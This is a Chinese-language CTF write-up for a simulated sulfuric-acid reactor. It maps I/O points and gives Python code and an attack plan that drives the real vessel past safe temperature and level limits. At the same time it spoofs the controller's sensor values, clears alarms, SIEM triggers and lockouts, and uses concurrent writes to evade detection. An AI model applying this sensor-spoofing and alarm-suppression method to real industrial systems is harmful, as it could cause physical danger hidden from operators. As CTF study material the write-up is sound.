

# NepCTF2026 虚验室制取稀硫酸 Writeup

## 题目简述

环境模拟硫酸反应釜、阀门、液位/温度传感器、控制器和 SCADA。目标是在真实反应釜温度超过 $90^\circ\mathrm{C}$、液位超过 100 的同时，不触发控制器或 SIEM 告警。

附件不提供完整控制逻辑，只给每台设备的 `metadata.json` 和 `/hardware/*.snapshot` I/O 映像接口，要求先完成 Point & Tag Identification，再通过篡改 I/O image 制造真实过程与上报状态的差异。

## 解题过程

设备关系如下：



解析各 `metadata.json`，用变量名、类型和偏移建立点位表。关键点位为：

| 设备 | 点位 | 偏移 | 类型 | 目的 |
| --- | --- | ---: | --- | --- |
| reactor_vessel | `Water_Flow` | 8 | `f32` | 提高进水 |
| reactor_vessel | `Acid_Flow` | 12 | `f32` | 提高进酸 |
| reactor_vessel | `Agitator_Running` | 16 | `i8` | 保持反应 |
| reactor_vessel | `Sys_Alarm` | 17 | `i8` | 清除釜告警 |
| reactor_vessel | `Vessel_Temp` | 24 | `f32` | 读取真实温度 |
| reactor_vessel | `Vessel_Level` | 28 | `f32` | 读取真实液位 |
| h2so4_controller | `Sensor_Temp` | 12 | `f32` | 伪造安全温度 |
| h2so4_controller | `Sensor_Level` | 16 | `f32` | 伪造安全液位 |
| h2so4_controller | `Valve_Acid` | 48 | `f32` | 制造命令/过程不一致 |
| h2so4_controller | `Sys_Alarm` | 53 | `i8` | 清除告警 |
| h2so4_controller | `SIEM_Event_Code` | 54 | `i16` | 清除事件码 |
| h2so4_controller | `SIEM_Trigger` | 56 | `i8` | 抑制上报 |
| h2so4_controller | `Security_Lockout` | 57 | `i8` | 解除锁定 |

SCADA 还需清零：

```text
offset 9    bEmergencyStop
offset 10   Sys_Alarm
offset 11   Security_Lockout
offset 12   SIEM_Trigger
offset 14   SIEM_Event_Code (i16)
offset 100  bSecurityEventLatched
offset 102  nLastSecurityEvent (i16)
```

这些 snapshot 文件是设备共享 I/O 映像。题目 MicroPython 环境不保证提供 `mmap`，直接用 `seek + write + flush` 即可按 metadata 指定的小端类型覆写：

```python
import struct

def write_f32(path, offset, value):
    with open(path, "r+b") as fp:
        fp.seek(offset)
        fp.write(struct.pack("<f", value))
        fp.flush()

def write_i8(path, offset, value):
    with open(path, "r+b") as fp:
        fp.seek(offset)
        fp.write(bytes([value & 0xff]))
        fp.flush()
```

攻击计划分为“推动真实过程”和“伪造报告”两部分：

```text
reactor_vessel.Water_Flow       = 260.0
reactor_vessel.Acid_Flow        = 260.0
reactor_vessel.Agitator_Running = true
reactor_vessel.Sys_Alarm        = false

h2so4_controller.Sensor_Temp    = 25.0
h2so4_controller.Sensor_Level   = 20.0
h2so4_controller.Valve_Acid     = 123.0
h2so4_controller 所有告警/事件/锁定字段 = 0
scada_panel 所有告警/事件/急停/锁存字段 = 0
```

仿真每约 10 ms 更新一次，单线程顺序写入很容易在中间状态被控制器或 SIEM 捕获。可启动多组写线程，持续重复同一计划并及时 `flush`；另设只读监控线程，区分真实反应釜的 `Vessel_Temp`、`Vessel_Level` 与控制器看到的伪造传感器值。成功条件是：

```text
Vessel_Temp > 90
Vessel_Level > 100
所有 Sys_Alarm / SIEM_Trigger / Security_Lockout / event 字段保持 0
```

达到阈值后停止写线程，避免无意义地继续扩大仿真状态。

## 方法总结

本题考查的不是网络包伪造，而是对工业共享 I/O image 的持续操纵。必须同时维护两套事实：反应釜的真实物理状态被推向危险区，控制器和 SCADA 看到的报告却保持安全。metadata 提供点位语义，snapshot 文件提供写入原语，而 10 ms 扫描周期决定了利用必须以并发、持续覆盖的方式与控制逻辑竞争。
